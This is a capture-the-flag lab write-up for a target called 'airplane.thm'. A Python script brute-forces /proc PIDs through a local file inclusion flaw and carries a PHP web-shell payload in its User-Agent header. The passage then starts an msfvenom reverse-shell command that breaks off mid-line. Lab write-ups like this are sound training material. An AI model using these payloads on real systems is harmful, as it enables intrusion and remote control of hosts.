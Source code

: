 The `/proc/` directory can be queried to identify information about running processes. We do not, however, know the PID (process ID) of the service running on 6048/TCP. Given that system / service PIDs are typically in the range of 1-1000, we can use our LFI vulnerability to fuzz PIDs.
> I began by using burp intruder for this, but it was horrifically slow (community edition pain). 
{: .prompt-tip }

I wrote a python script with the help of my mate Chat GPT which would automate this process for PIDs 1-1000:
```python
import requests

# Define the target URL and headers
base_url = "http://airplane.thm:8000/?page=../../../../../../proc/"
headers = {
    'Host': 'airplane.thm:8000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': '<?php system($_GET[\'c\']); ?>',
    'Accept': '',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'If-None-Match': '"1713330376.3737798-1515-3732933866"',
    'If-Modified-Since': 'Wed, 17 Apr 2024 05:06:16 GMT',
    'Connection': 'close'
}

# Loop through the PIDs from 1 to 1000
for pid in range(1, 1001):
    url = f"{base_url}{pid}/cmdline"
    try:
        # Make the GET request
        response = requests.get(url, headers=headers)
        # Print the response text
        print(f"Response for PID {pid}:")
        print(response.text)
        if response.text.strip():
            with open(f"{pid}.txt", "w") as file:
                file.write(response.text)
            print(f"Written output of PID {pid} to {pid}.txt")
    except Exception as e:
        print(f"Error with PID {pid}: {e}")
```
I executed the script, and waited for it to write the files 1-1000.txt. 
Next, I ran some shell commands to remove empty files and display the files in a way I could scroll through easy
```zsh
grep -l "Page not found" *.txt | xargs rm
find . -name "*.txt" -exec awk 'FNR==1 {print FILENAME} {print}' {} +
```
Navigating through this output, I spotted the following output:
```
./528.txt
/usr/bin/gdbserver0.0.0.0:6048airplane
```
It looks like the "X11 service" is actually a `gdb` server.
> GDB is GNU debugger, used for debugging applications
{: .prompt-tip }
## Foothold
### Uploading a Shell to remote GDB Server
We can upload our own malicious binary to the remote GDB server. First, let's generate the binary using `msfvenom`
```zsh
msfvenom -p linux/x64/shell_reverse_tcp \
	LHOST=<YOUR_IP> \
```